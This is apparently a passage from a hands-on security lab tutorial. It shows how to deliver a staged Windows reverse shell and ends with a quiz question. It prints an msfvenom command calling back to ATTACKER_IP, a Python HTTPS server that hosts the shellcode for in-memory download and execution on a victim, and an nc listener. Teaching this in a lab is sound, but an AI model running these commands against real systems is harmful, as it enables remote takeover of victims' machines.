 ```shell-session
PS C:\> csc staged-payload.cs
```

Using our stager to run a reverse shell

Once our payload is compiled, we will need to set up a web server to host the final shellcode. Remember that our stager will connect to this server to retrieve the shellcode and execute it in the victim machine in-memory. Let's start by generating a shellcode (the name of the file needs to match the URL in our stager):

AttackBox

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d'
```

Notice that we are using the raw format for our shellcode, as the stager will directly load whatever it downloads into memory.

Now that we have a shellcode, let's set up a simple HTTPS server. First, we will need to create a self-signed certificate with the following command:

AttackBox

```shell-session
user@AttackBox$ openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```

You will be asked for some information, but feel free to press enter for any requested information, as we don't need the SSL certificate to be valid. Once we have an SSL certificate, we can spawn a simple HTTPS server using python3 with the following command:

AttackBox

```shell-session
user@AttackBox$ python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```

With all of this ready, we can now execute our stager payload. The stager should connect to the HTTPS server and retrieve the shellcode.bin file to load it into memory and run it on the victim machine. Remember to set up an nc listener to receive the reverse shell on the same port specified when running msfvenom:

AttackBox

```shell-session
user@AttackBox$ nc -lvp 7474
```

Answer the questions below

Do staged payloads deliver the full content of our payload in a single package? (yea/nay)

# Intro to Encoding and encryption
